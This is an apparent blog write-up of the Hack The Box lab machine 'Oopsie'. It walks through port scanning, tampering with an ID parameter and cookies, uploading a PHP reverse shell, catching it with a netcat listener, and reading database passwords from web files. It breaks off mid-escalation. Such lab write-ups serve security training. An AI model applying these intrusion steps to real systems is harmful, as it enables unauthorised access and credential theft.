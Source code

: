 ```yaml
---
layout: post
title: 'HTB | Oopsie'
date: 2022-03-06
permalink: /htb/oopsie/
---
```


# [](header-4)Enumeration

The nmap will show us:
{% highlight plain %}
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-05 16:47 EST
Nmap scan report for 10.129.111.155
Host is up (0.048s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.95 seconds
{% endhighlight %}

If we search the ip in the Firefox we can access to a webpage:
![](./img/Screenshot_3.jpg)

Now we can set Firefox to listen to **Burp Suite**:
![](./img/Screenshot_4.jpg)

In the Burp Suite app we can see there is a login:
![](./img/Screenshot_5.jpg)

# [](#header-4)Foothold

Now we have access to the login page:
![](./img/Screenshot_6.jpg)

We can see we need super admin privilages to get access to the super admin account:
![webpage](./img/Screenshot_7.jpg)

We can see the **id=2**.:
![webpage](./img/Screenshot_8.jpg)

If we change to 1:
![webpage](./img/Screenshot_9.jpg)

Now we can use those credentials to change the cookies:
![webpage](./img/Screenshot_10.jpg)

We will upload a reverse shell in php and use gobuster to find where it is uploaded:
{% highlight plain %}
$ gobuster dir -u http://10.129.95.191/ -w /usr/share/wordlists/directory-list-2.3-small.txt -x php 

/uploads              (Status: 301) [Size: 316] [--> http://10.129.95.191/uploads/]
{% endhighlight %}

We will open a netcat and execute the reverse shell through the browser:
{% highlight plain %}
$ sudo nc -lvvp 1234
{% endhighlight %}

Now we have access to the system and to the user flag:
{% highlight plain %}
$ cat /home/robert/user.txt
{% endhighlight %}

We can import a python module to get a better shell:
{% highlight plain %}
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
{% endhighlight %}


# [](#header-4)Privilege Escalation

Inside we can search in the Apache server and find the password:
{% highlight plain %}
www-data@oopsie:/var/www/html/cdn-cgi/login$ cat * | grep pass
        if($_POST["username"]==="admin" && $_POST["password"]==="MEGACORP_4dm1n!!")
{% endhighlight %}

In the **db.php** file we can get another passwords:
{% highlight plain %}
www-data@oopsie:/var/www/html/cdn-cgi/login$ cat db.php
        <?php
        $conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
        ?>
{% endhighlight %}

We can now use that password to access robert user:
{% highlight plain %}
www-data@oopsie:/var/www/html/cdn-cgi/login$ su robert
Password: M3g4C0rpUs3r!
{% endhighlight %}

With the **id** command we can see that Robert is in the same group as bugtracker.
{% highlight plain %}
robert@oopsie:/$ id
uid=1000(robert) gid=1000(robert) groups=1000(robert),1001(bugtracker)
{% endhighlight %}

We can now search for the bugtracker group:
{% highlight plain %}
robert@oopsie:/$ find / -group bugtracker
/usr/bin/bugtracker
{% endhighlight %}


{% highlight plain %}

{% endhighlight %}
